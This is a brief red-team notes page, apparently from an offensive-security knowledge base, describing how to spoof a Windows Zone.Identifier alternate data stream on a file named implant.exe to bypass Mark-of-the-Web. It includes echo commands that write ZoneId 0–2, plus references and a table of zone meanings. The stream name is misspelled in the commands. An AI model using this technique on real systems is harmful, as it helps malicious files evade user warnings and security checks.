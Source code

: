 # 03 - Spoof ZoneTransfer (MOTW Bypass)

Search Tag(s): #initial-foothold #defense-evasion #windows #scenarios

```
$ echo -e "[ZoneTransfer]\nZoneId=0" > /mnt/ntfs/implant.exe:Zone.Identifer

$ echo -e "[ZoneTransfer]\nZoneId=1" > /mnt/ntfs/implant.exe:Zone.Identifer

$ echo -e "[ZoneTransfer]\nZoneId=2" > /mnt/ntfs/implant.exe:Zone.Identifer
```

Unmount the container.

```
$ sudo umount /mnt/ntfs/
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/10 - Hide Artifacts/Alternate Data Streams (ADS)/Living off the Land|Windows: Hide Artifacts]]

- [Red Canary: Mark-of-the-Web Bypass](https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/)

- [SecurityLiterate.com: How Malware Abuses the Zone Identifier to Circumvent Detection and Analysis](https://securityliterate.com/how-malware-abuses-the-zone-identifier-to-circumvent-detection-and-analysis/)

### Table Reference

| Zone Identifier | Description                                                                                                           |
| :-------------: | --------------------------------------------------------------------------------------------------------------------- |
|        0        | File originates from the local machine. It has the least security restriction.                                        |
|        1        | File originated from the local intranet (local network). Both zone identifier 0 and 1 indicate a high level of trust. |
|        2        | Indicates the file was downloaded from a trusted site. This can spoofed by attackers by manipulating the ADS.         |
|        3        | Indicates the file was downloaded from the internet and it is generally untrusted.                                    |
|        4        | Indicates that the file came from a likely unsafe source.                                                             |
